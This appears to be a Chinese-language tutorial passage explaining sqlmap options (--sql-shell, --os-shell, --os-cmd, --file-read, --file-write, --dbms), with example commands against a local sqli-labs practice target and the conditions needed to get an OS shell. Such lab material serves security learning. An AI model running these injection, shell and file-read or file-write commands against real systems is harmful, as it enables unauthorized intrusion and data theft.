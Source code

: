 ## 3. --sql-shell

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/?id=1 --sqlshell
执行操作指令，之后执行sql语句即可。
```

## 4. --os-shell

执行条件：
    1. 网站必须是root权限
    2. 攻击者需要知道网站的绝对路径
    3. GPC为off，php主动转义的功能关闭

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/index.php?id=1
--os-shell
```

## 5. --os-cmd

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/index.php?id=1
--os-cmd=whoami 成功执行
```

## 6. --file-read

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/index.php?id=1
--file-read="c://test.php"
```

## 7. --file-write --file-dest

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/?id=1 --file-write "E:\360MoveData\Users\Administrator\Desktop\hhh.txt" --file-dest
"c://aa.txt"
将本地桌面的hhh.txt（内容为hahaha）上传到服务器c盘，名字为aa.txt。
```

## 8. --dbms="MySQL"

``` sql
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/index.php?id=1
--dbms="MySQL"
指定数据库类型
```

默认情况下sqlmap会自动识别探测目标Web应用程序的后端数据库管理系统（DBMS），以下列出sqlmap完全支持的DBMS种类：

MySQL,Oracle,Firebird,IBM DB2,Informix,Microsoft Access,Microsoft SQL
Server,PostgreSQL,SAP MaxDB,SQLite,Sybase
